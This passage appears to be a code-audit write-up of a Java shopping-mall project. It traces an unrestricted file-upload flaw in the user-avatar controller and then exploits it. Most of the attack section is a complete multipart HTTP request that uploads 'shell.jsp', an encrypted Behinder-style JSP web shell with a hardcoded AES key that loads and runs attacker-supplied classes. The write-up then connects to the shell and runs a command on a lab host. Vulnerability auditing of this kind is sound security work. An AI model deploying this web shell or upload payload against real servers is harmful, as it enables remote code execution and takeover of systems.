


#### src/main/java/com/xq/tmall/controller/fore/ForeUserController.java

​	Find the controller of file upload through upload, there are four controllers to implement the function of file upload, here choose a less difficult method, in fact, the control of four file uploads has the same vulnerability.

```java
    @ResponseBody
    @RequestMapping(value = "user/uploadUserHeadImage", method = RequestMethod.POST, produces = "application/json;charset=utf-8")
    public  String uploadUserHeadImage(@RequestParam MultipartFile file, HttpSession session
    ){
        String originalFileName = file.getOriginalFilename();
        logger.info("获取图片原始文件名：{}", originalFileName);
        String extension = originalFileName.substring(originalFileName.lastIndexOf('.'));
        String fileName = UUID.randomUUID() + extension;
        String filePath = session.getServletContext().getRealPath("/") + "res/images/item/userProfilePicture/" + fileName;
        logger.info("文件上传路径：{}", filePath);
        JSONObject jsonObject = new JSONObject();
        try {
            logger.info("文件上传中...");
            file.transferTo(new File(filePath));
            logger.info("文件上传成功！");
            jsonObject.put("success", true);
            jsonObject.put("fileName", fileName);
        } catch (IOException e) {
            logger.warn("文件上传失败！");
            e.printStackTrace();
            jsonObject.put("success", false);
        }
        return jsonObject.toJSONString();
    }
```

​	 This is a file upload implementation of a user avatar, and here we can find that the audit code here has modified the incoming file name, which means that there is no directory penetration here, but there is no verification of the suffix here. So there is an arbitrary file uploaded here, and the project also parses JSP, so it can also be transmitted to the shell. We locate the function point of the front-end avatar replacement, and after sending a random image, we construct the data packet.

```http
POST /tmall/user/uploadUserHeadImage HTTP/1.1
Host: 172.21.53.85:8080
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Referer: http://172.21.53.85:8080/tmall/userDetails
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTAJAUStFnEcoK7fY
Origin: http://172.21.53.85:8080
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=3B16C09E8A179A970E83C60845A3ED95; username=1209577113; admin-token=1#2F31733671566670654C7A6C432B6766575978556E4E58456F4554656B56596479727567522B483048444B544C5A4F5332736C4673556352716E516573486D535366716C76524751733336462F746D77657036476C516F4C493741783532773834364D74783071516B5079657A6856355766355970547677473254736F2F5165454A656B366857734474653154734B672F494A4A33773D3D
Content-Length: 2276

------WebKitFormBoundaryTAJAUStFnEcoK7fY
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: image/jpeg

<%@page import="java.util.*,java.io.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    private byte[] Decrypt(byte[] data) throws Exception
    {
        String k="e45e329feb5d925b";
        javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES/ECB/PKCS5Padding");c.init(2,new javax.crypto.spec.SecretKeySpec(k.getBytes(),"AES"));
        byte[] decodebs;
        Class baseCls ;
                try{
                    baseCls=Class.forName("java.util.Base64");
                    Object Decoder=baseCls.getMethod("getDecoder", null).invoke(baseCls, null);
                    decodebs=(byte[]) Decoder.getClass().getMethod("decode", new Class[]{byte[].class}).invoke(Decoder, new Object[]{data});
                }
                catch (Throwable e)
                {
                    baseCls = Class.forName("sun.misc.BASE64Decoder");
                    Object Decoder=baseCls.newInstance();
                    decodebs=(byte[]) Decoder.getClass().getMethod("decodeBuffer",new Class[]{String.class}).invoke(Decoder, new Object[]{new String(data)});

                }
        return c.doFinal(decodebs);

    }
%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return
        super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            byte[] buf = new byte[512];
            int length=request.getInputStream().read(buf);
            while (length>0)
            {
                byte[] data= Arrays.copyOfRange(buf,0,length);
                bos.write(data);
                length=request.getInputStream().read(buf);
            }
            /* 取消如下代码的注释，可避免response.getOutputstream报错信息，增加某些深度定制的Java web系统的兼容性
            out.clear();
            out=pageContext.pushBody();
            */
            out.clear();
            out=pageContext.pushBody();
        new U(this.getClass().getClassLoader()).g(Decrypt(bos.toByteArray())).newInstance().equals(pageContext);}
%>
------WebKitFormBoundaryTAJAUStFnEcoK7fY--
```

​	After sending the package, get the URL of the image and access the jsp file.



​	Access [172.21.53.85:8080/tmall/res/images/item/userProfilePicture/248f1f1d-aad8-43f6-8147-e9fd780f7ed4. jsp](http://172.21.53.85:8080/tmall/res/images/item/userProfilePicture/248f1f1d-aad8-43f6-8147-e9fd780f7ed4.jsp), find that there is no image parsing error, or download the file directly, that is, parsing jsp, after using the ice scorpion connection, the connection is successful, Run the calc command to eject the computer.

